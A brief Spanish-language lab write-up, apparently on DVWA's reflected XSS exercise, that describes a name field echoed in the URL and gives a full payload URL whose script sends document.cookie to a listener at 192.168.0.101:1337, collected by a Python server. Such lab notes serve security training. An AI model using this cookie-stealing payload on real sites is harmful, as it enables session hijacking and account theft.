


Buscamos lo mismo que en el anterior, fishing.
por lo que primero que vemos es un lugar para poner nuestro nombre y al ponerlo notamos que el URL cambia

por lo que probamos si realmente funciona el mismo metodo que se uso en el anterior

al ver que sirve haremos exactamente lo mismo que en XSS(DOM) usando el siguiente URL:
http://192.168.0.101/DVWA/vulnerabilities/xss_r/?name=<script>window.location='http://192.168.0.101:1337/?cookie=' + document.cookie </script>
se envia este link y nos dan las cookies en el python server desde la shell